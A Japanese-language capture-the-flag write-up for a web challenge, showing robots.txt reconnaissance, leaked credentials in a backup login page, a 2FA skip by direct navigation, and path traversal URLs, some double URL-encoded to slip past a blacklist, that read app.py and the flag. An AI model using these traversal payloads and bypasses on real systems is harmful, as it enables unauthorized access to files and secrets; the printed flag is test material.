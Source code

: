 ## Lunar File Invasion
### 問題文
```
We recently started a new CMS, we've had issues with random bots scraping our pages but found a solution with robots! Anyways, besides that there are no new bug fixes. Enjoy our product!

Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!

https://asteroid.sunshinectf.games
```

### 解き方(長いので簡潔に書いてます)
1. 問題文より、robots.txtにヒントがありそうなので確認する。
```
# don't need web scrapers scraping these sensitive files:

Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```
2. /.gitignore_test が怪しいのでアクセスして入手する。
```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```
3. とりあえず書いてあるhtml全てにアクセスしてみるとlogin.html~だけ入手できた。
4. robots.txtに`/admin/dashboard`とかいう怪しいページがあるのでアクセスしようとする。
5. loginページに遷移するのでlogin.html~に書いてあるユーザー名とパスでログインする。
```html
<label for="Email">Email</label>
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<label for="Password">Password</label>
<!-- just to save time while developing, make sure to remove this in prod !  -->
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
```

6. 2ファクタ認証のワンタイムパッドを要求されるが、無視して`/admin/dashboard`にアクセスしようとすると`/admin/help`にアクセスできる。
7. ページ上部に「Manage Files」というページがあるのでアクセスする。
8. secret1.txt、secret2.txt、secret3.txtがあるので中身を確認するとsecret2.txtに`so we triggered IR, one of the attackers somehow got their hands on our /etc/passwd file because it's on every Linux machine.` と書いてあるのでパストラバーサルが利用できると推測できる。
9. また、ソースを確認すると以下の部分から`/admin/download/ファイル名`とすることでファイルを入手できそうなことがわかる。(ここまでできた)
```js
function fetchFileContent(filename) {
            // no need ot URLEncode this is JS argument being pssed in,
            // plug we already URLencoded via flask's | urlencode
            const viewUrl = `/admin/download/${filename}`;
            (以下略)
```
10. **app.pyがあることを推測し**、`/ /..//..//../app.py` をURLエンコードしたリンクでパストラバーサルを行う
```
https://asteroid.sunshinectf.games/admin/download/%20%2f..%2f%2f..%2f%2f..%2fapp.py
```

11. app.pyの以下の記述からflagの位置を特定する。
```py
with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()
```
12. `.././.././../FLAG/flag.txt` を二重でURLエンコードしたリンクでパストラバーサルを行い、flag.txtを入手する

```
https://asteroid.sunshinectf.games/admin/download/..%252f.%252f..%252f.%252f..%252fFLAG%252fflag.txt
```
flag
```
sun{lfi_blacklists_ar3_sOo0o_2O16_8373uhdjehdugyedy89eudioje}
```
### 感想
app.pyの推測ができれば解けてた。
低評価多かった理由もなんとなくわかる